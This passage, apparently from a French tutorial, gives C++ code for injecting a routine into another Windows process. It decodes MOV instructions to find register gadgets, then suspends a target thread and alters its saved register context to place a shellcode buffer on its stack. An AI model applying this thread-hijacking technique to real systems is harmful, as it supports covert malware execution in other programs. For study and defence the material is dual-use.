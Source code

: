 ```c++
 
          if( !GoodReg[Ev] || !GoodReg[Gv] ) return NULL;
 
          Ev = Ev << 4;
 
          *regs = Ev | Gv;
 
          *address += 3;
 
          return *address - 3;
      }
      else
      {
           if( (*(*address + 1) & 0x28) == 0x28 ) return NULL; //exception !
 
           *offset = 0;
           BYTE Ev = *(*address + 1) >> 3 & 0x07 ;
           BYTE Gv =    *(*address + 1) & 0x07 ;
 
           if(Ev == Gv) return NULL;
 
           if( !GoodReg[Ev] || !GoodReg[Gv] ) return NULL;
 
           Ev = Ev << 4;
 
           *regs = Ev | Gv;
 
           *address += 2;
 
           return *address - 2;
      }
 
      return NULL;
}
```
Enfin nous, maintenant que nous avons les instructions nécessaires permettant une écriture sécurisé. Nous allons écrire notre routine au dessus de la pile du Thread cible.
Il nous faudra avant tout placer l’adresse de notre JMP $ pour le RET dû au passage dans notre MOV :
```c++
    if(SuspendThread(hThread) == -1)goto exit;
 
    CONTEXT Context;
    CONTEXT SafeContext;      //On sauvegarde le context d'origine.
    Context.ContextFlags = CONTEXT_FULL;
 
    if(!GetThreadContext(hThread, &Context))goto exit;
 
    SafeContext = Context;
 
    LPDWORD PtrToRegContext[9];
 
    PtrToRegContext[3] = &Context.Ebx;
    PtrToRegContext[5] = &Context.Ebp;
    PtrToRegContext[6] = &Context.Esi;
    PtrToRegContext[7] = &Context.Edi;
 
    LPDWORD SrcReg = PtrToRegContext[Regs/16];      //Adresse du DWORD dans Context du registre source (Gv).
    LPDWORD DstReg = PtrToRegContext[Regs%16];      //Adresse du DWORD dans Context du registre de destination(Ev)
 
    DWORD hAddrBase = Context.Esp - 8 - sizeof(sc);
```